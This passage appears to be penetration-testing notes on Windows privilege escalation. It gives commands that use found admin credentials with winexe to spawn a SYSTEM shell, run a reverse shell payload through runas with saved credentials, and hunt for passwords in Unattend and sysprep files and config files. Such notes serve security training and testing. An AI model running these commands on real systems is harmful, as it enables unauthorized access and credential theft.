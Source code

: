 If admin credentials are found, use `winexe` from the attacker machine to spawn a SYSTEM shell.
```powershell
winexe -U 'admin%password123' --system //[target ip] cmd.exe
```

### Saved Credentials
Windows allows users to save their credentials to the system, in which these saved credentials can be used with the `runas` command to bypass the password requirement.

Check for any saved credentials.
```powershell
cmdkey /list
```

Start a listener on the attacker machine and execute a reverse shell payload using `runas` with the saved credentials to spawn a SYSTEM shell.
```powershell
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

### Unintended Installs
Allows Windows to be deployed with little or no active involvement from an administrator. An XML file called `Unattend` contains all configuration settings that were set during the installation process and may contain passwords.

Look in the following directories.
```powershell
C:\Windows\Panther\
C:\Windows\Panther\Unattend\
C:\Windows\System32\
C:\Windows\System32\sysprep\ 
```

Search for the following files.
```powershell
Unattend.xml
unattended.xml
unattend.txt
sysprep.xml
sysprep.inf
```

### Searching For Configuration Files
Some administrators will leave configuration files on the system with passwords in them. It is best to run the following commands in directories that may seem important, such as the current user's home directory.

Recursively search the current directory for files with "pass" in the name or end in .config.
```powershell
dir /s *pass* == *.config
```

Recursively search the current directory for files that contain the word "password" and also end in either .xml, .ini, or .txt.
```powershell
findstr /si password *.xml *.ini *.txt
```
